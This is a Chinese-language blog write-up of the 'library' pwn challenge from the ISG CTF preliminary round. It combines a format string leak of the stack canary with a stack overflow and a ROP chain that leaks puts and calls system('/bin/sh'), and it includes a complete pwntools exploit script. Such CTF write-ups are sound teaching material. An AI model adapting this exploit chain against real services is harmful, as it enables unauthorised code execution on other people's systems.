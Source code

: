 ```yaml
---
title: ISG初赛library
author: rk700
layout: post
redirect_from:
  - /writeup/2014/12/28/isg-library
  - /writeup/2014/12/28/isg-library/
tags:
  - exploit
---
```


子曰：温故而知新。最近一段时间没有练习pwn的题目，正好当时ISG初赛的library还一直没研究，于是练习了下。果然是稍微放一放就生疏了……

比较明显的问题是在register里，有一个format string attack。但这道题对这里还是有一些限制，比如字符串长度只有15，而且一旦调用过一次就不能再调用了。我最初光考虑这个漏洞了，想好久也没有找到好的方法。因为有ASLR，所以必须先读某个函数的地址，再改got；但是只能调用一次这点限制太严重了，而且15个字符基本上改不了什么。

然后看到query里有一处读输入到栈上的代码，而读的长度是在一个全局变量里保存的，到此才稍微明白了思路：可以改这个全局变量使得读输入溢出，修改返回地址。但在query里还检查了canary，所以我们还需要canary的值，而这个值可以从format string那里得到。由于canary保存在栈上，为了读栈上的内容，用的格式是`%x`，所以要把返回的8 bytes的hex转化为4 bytes的内容。

具体地，改全局变量那里，由于15个字符的限制，只能改一下了，所以可以把全局变量的高位改为非零，这样的话全局变量的值就成了一个大数。

可以修改返回地址后，我又陷入了思维定式，还想再用format string来读函数地址。但正如前面所说，对register有限制；想要修改返回地址为main从头再来，但全局变量那里又需要再改了……最后意识到，一旦可以修改返回地址，就直接rop了，不需要再利用限制那么严格的format string。

于是，用`puts`来打印函数地址。rop最后跳到query里，再一次造成溢出，执行`system`。

{% highlight python %}
#!/usr/bin/env python2

from pwn import *
import sys

if __name__ == '__main__' :
    context(arch='i386', os='linux')

    #libc = ELF('/opt/arch32/usr/lib/libc.so.6')
    systemLibcAddr = 0x3b010#libc.symbols['system']
    #print hex(systemLibcAddr)
    putsLibcAddr = 0x64250#libc.symbols['puts']
    #print hex(putsLibcAddr)
    shStrLibcAddr = 0x15d1b3#next(libc.search('/bin/sh\x00'))
    #print hex(shStrLibcAddr)

    elf = ELF('library')
    putsGot = elf.got['puts']
    putsPlt = elf.plt['puts']

    leftTime = 0x0804b008
    doQuery = 0x08048971

    ip = "127.0.0.1"#sys.argv[1]
    conn = remote(ip, 1111)

    payload = "1\n" + p32(leftTime+1) + "%35$x%10$hn\n"
    conn.send(payload)
    conn.recvuntil("Mr./Mrs. "+p32(leftTime+1))
    canary = int(conn.recvn(8),16)
    #print "canary is %s" % hex(canary)

    payload = "2\n" + "A"*0x100 + p32(canary) + "B"*12 + p32(putsPlt) + p32(doQuery) + p32(putsGot) + "\n"
    conn.send(payload)
    conn.recvuntil(":'(\n")

    putsMemAddr = unpack(conn.recvn(4))
    systemMemAddr = putsMemAddr + (systemLibcAddr - putsLibcAddr)
    shStrMemAddr = putsMemAddr + (shStrLibcAddr-putsLibcAddr)
    #print "system is at %s" % hex(systemMemAddr)
    #print "puts is at %s" % hex(putsMemAddr)
    #print "sh is at %s" % hex(shStrMemAddr)

    payload = "A"*0x100 + p32(canary) + "B"*12 + p32(systemMemAddr) + p32(0xabcdabcd) + p32(shStrMemAddr) + "\n"
    conn.send(payload)

    conn.interactive()
{% endhighlight %}

